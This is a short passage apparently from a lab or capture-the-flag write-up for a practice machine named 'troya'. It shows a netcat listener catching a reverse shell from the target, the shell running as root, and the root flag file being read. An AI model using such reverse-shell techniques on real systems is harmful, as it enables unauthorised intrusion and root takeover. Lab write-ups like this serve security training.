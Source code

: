 Don't forget to catch the reverse shell!

```bash
┌──(root💀kali)-[/opt/hackmyv/troya]
└─# nc -lvnp 4444         
listening on [any] 4444 ...
connect to [192.168.56.3] from (UNKNOWN) [192.168.56.33] 34110
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@troya:/# whoami
whoami
root
root@troya:/# cat /root/root.txt
cat /root/root.txt
partyishard

```
